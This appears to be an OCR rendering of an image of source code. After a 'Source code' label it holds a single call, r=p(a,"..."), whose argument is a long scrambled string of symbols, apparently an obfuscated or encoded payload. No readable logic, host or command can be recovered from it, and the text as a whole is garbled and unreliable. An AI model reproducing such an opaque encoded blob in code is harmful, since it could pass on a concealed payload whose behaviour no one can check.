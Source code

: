 r=p(a,"Et!)6}_haB/pRxToM!/xa!}a)f!!x/pFa_}/)BrhTRaoaxBl})ThR}pBpTax}a)6trT}/T6)_h)TR}xTp_B)h!)o9/othTh!}xtRo!RaBRhth/66txTphxB6!B!t!6TRx}}h_k6R!_&6xtBRa}}_!ox/p)a6}/)%D6oTRTpchT)_ttTMp_aR_36})!t}x_phB6)Tt}TapTB6xxp}haTTRRBa_T66taoJoBpRB^ha6xt6/}aTha}x!!oaRT/!aahn}}!po_xt/ca!y}JTo_R/pthR}a!xxRR/a_}R)!r_xTTh//hT__)poTT}_B_R_/)x^}xRpo6)6_6ataTop_BBh_o)xpR_/)h:6_tRoux/p/Bphttxt!o}R6h/}/!6o/xA/6a}hR}a!RoaRR/6)t!o)!o}pu/6}/)G{_x/R}/aah}T))pppBpRhot)otT}T/pBa6_0)Rttx/_oB)_/ot%/T!poBT_p)_tx//BTho6atTo6RaBT/Fh}6)tRo7/}/6hh6}tRoo//a}}6!/D2x6p}/!aa}p!Td)p!aT}R)!DaxRR}hB_pttIot!x}Bgh/)/t#T_p/BxB}}T6!taBp/!6hht6!RBo)p_Bx_a)R!t/)B/Bah!!!l}RR/!ha6R)tt_oxR//pa_v)ooo,Ra/oas}B)_x/ppa6}/)<n6T/xB/Rhx}6)/3xT6h6_}_a!pT_xaB>__)Rt:Taotp6aah<6}2aToh)}t6}6/tBT6R;BRht)/Rox}pT_5}66Rt}o!RpB/)6!ai_x!/ahT}!!p!/O)RT/!)))t)6ohp!aT}R)!;axRpR/_a_}_tpoTx}B;ha)/tzT_p/B!Bp}T)!t/Top!BBtxt}t}TbpBBK!ttB2TToR}h_}/!Fo_RR/laahh6a!polx)//_T6oxBx0RB/ah/}}r6xx/Ta6}//6_h)TtTTx_P)B?/TCp_a/_p}6)_M6ppB,__)Rt!TapTB6//6!!jTRR!Ba_R6x)_t/TRR86x6p6TttRR/Th_6R!!o_Ta/6/a}_!a!xohx)Boa_}6Y)T!/TBx}a!T,6xaprpBhR}l)aQxx2ph)p66!/(oxRpBB)t}t!t/T6_x_o}T)GfRoDp__T6RtaTTR6Bah:hB6htBo!Rxh}_T6Boax}/!ha6T!!!Bo/x6/pho6R!ho_/RaB}_!R;!x_pR/!ah}6)t(paxh}_L)x{/T9p_a/_t}a)h4_B}B)B_}Bt6ozpTB6_/)TtojRo}h)hth6)ho!xBBRh!6atR8)x}/T_p!h)?!hopR6B/ho*tA/oRR_BRh6}hq!TB/Ra!}a!RV!d6xBp}aB}R!ooTao/Ba/ttt/?{T}p!ao_Bt!ohpRB!_a)R!!dxT/p6B!h6)6toT6h}hx_!)/t_otRuh_}B!lo_RR/:hahh66!ho!x/}h6T}_!Ro^x//ha}!T*hxa/Ta6}a)6!oSgTta/_/)6d/T?p6axhT_})xpoRa/TB)_K)xthRdBR_/6Jt_T/pTR}BR_66),RTxBTh/6atTo6Ra/x/__aoxtpoTRthR}/!_oRx!/_hpa66_!Boaaha}aa6pM_T}p a_}R)gjhoTT!/Tax}_ThT}Ta/p__6}trT_pRBZ_B_p)Tt)TopxBS_p)atRR_RthS6_tRoSR}R}BThxopohoBx!BRhx}!x}TtB)}h)}!B!ToxRa/6an}}tTp)xh/T)})p!6R_p/p!hp}a)tCeB/aT_p)acTT6paaRa}__)xthBBBRa/6!!aTRR!Ba_R6!)_tx/t/BaT__)TRoxaR6BTh))T!hoaxthR_/!_oRx!/_aRho6/!Go}aha}aa6pxoTxap_B_B}!!_faxR//aB}}!a3tT!h!__})tLT_pRB9h__})at!Tfhth/_B)6!!TaR)B!!t!_tpToR!Bx_/op,)xh/6h/}R!6o/xg/6aphR}/tT5ta}a/hhbh }oax}/p}R)}u_xRp!a__/)h)/oxpaBx_!)a,TT!RaR>B)_x)_tBx/pp6}6T6}t_TopRaTh!tRF&R_BRh!6_tRtTo!pxB!hpoxd/T/xt/hh6}&!B:K//aa}6!/&qx6pB/!hhZBtBp}p)p_hB)6t-xTp6a/}T)/)6WxB)BtB6}ht!o6pRB!_a)RtxqTTBppaatxto7TT_p/BB_}6/o6xBBTh66/tTo!/hp!/th!}}t/oxx6BahBl)Cxoax!/G}a6-g!xa/Ta!_a_F)toRxo_)_}}6!_P!T_/R)x6_)a2!xap;B))TtpTapTB6_a6T)_tpotpRBh__6ao!xtBRh!6atRokTBpoa6_R6i!ho!RT/)}!)QoRx!/ahR}t}t!/0BTD}x}p}T!txRpBa_}R)!Z_o!T6pBa/ttAot!x}BDh/)/tgT_p/aTB}__TooRTxp_B/ht)o4TBo/aB6_T6RtBT6RxBThh!!iRRR/!ha6R!!txo?R_//h!2)ooo(Ra/oad}B)_p)pxpaha}/)GN}p6Bt}T)6D/xTp!/pat)o!/Jtx/ph_a6/t!TapTB!h}_x6WttT!p_Bxto!)tAoBRR/y6/!_o6R//7h6}/!x;R/B/6aa}p!atux!/ahT}!)h!VF6xpBTaa}p!OL)xo_t_p__!_VaxTp))p!)FTo)paaT_6)atpt)T_phaa}R6)R}RTRtaR_W6htpo6R!h!6TtRo!RaBRB6hx6*t6oRxtBa}S)}o/xK/_h/6T}t!!oRR/}p}x6a)7bhaBB!aB6R!oopp6/6}T)6,/xTR}/oa!t)tRt)Thp/ao}T)!t_Tx_o_h}R6}tpTBpaB.ht66!wTopp/O6/66o6R//2h6}6}!tooxRa/}hh6_xhHvR_/pha}}!o>6ah/)a!}pxoT}/Thz_6}R!}u!xp//)p}!!p*txa/x6j)RtpT_pRB!__6_66tkoJR)BRtxtptTTtBRBa6_tRo!R_/xBh_T6TxtTxR_Bo_Too!RTRx6}hhx}}!a;)R/BTa}6R!tp)T,/aaB})TtT6xRp!ah6!!/oTBtBx}G)/!oT6p/Bs_66/!Tttxxp6Bhtp!BRh/}BBBT_x)at6o4R}aT!)6htT/}/pB6)_!/!!TpRa/th9W/oTT)/ahT}6!at&oox>p)ha}p)!o_xh_t_/}3)}q!xopB_!6t5RT!paaR_R}_)_H_RTp_Bt}x)TtRR!BT_R6!taTRxhpBB___6B!tp6/Yaa6/!+o_R/BoBa_Too#an!R!/Bh/j)uRoax!puhx6a)t+!xpa__a)Xn_xRp,ahh/}x!Bt6Bap/)x6/)attTt/o_a6_t!TapTB!hB_/6)FaBxBRBR6R)/o!R/BRh!6aB!_x)/S}ha}!!!oaRT/!hph6}6t/o}/BhT}6!/N5x_aRotBa)*t_x/pIa_}/!o!o?Tx6_}_h_i!/ga/x_Bht}T6tw!T)RD_/6xt6T/ROB6h/ht6ajxBoBo/f_T6hRxx!ppBthT!!t}RR/!ha6R)ttTItR!/)a;.)Ttx}x//Bh6}q!R2tR/}oa)}/TtThx7h!__}T!hc6xx/R6_)/thT6p/B:_666)!t